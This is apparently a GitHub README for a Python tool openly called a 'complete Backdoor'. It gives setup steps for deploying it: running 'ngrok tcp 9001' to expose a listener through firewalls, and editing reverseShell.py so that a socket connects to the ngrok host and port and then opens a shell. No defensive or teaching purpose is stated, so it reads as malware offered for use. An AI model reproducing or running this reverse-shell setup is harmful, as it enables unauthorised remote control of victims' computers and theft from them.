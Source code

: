 # Backdoor

Creating a complete Backdoor using Python

## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install missing modules.

```bash
pip install -r requirements.txt
```

## Usage
use [Ngrok](https://ngrok.com/) to exposes local server behind NATs and firewalls to the public internet over secure tunnels.
```bash
ngrok tcp 9001
```
change the reverseShell.py [code](https://github.com/msamyy/roodkcab/blob/cb93eade83a6c29268dc9d7577dd68a089d3223c/rs/reverseShell.py#L355) so it contains the address and the port generated by Ngrok, for example:
```python
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# connection()
sock.connect(("8.tcp.ngrok.io", 17655))  # ngrok tcp 9001
print("connected")
shell()
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
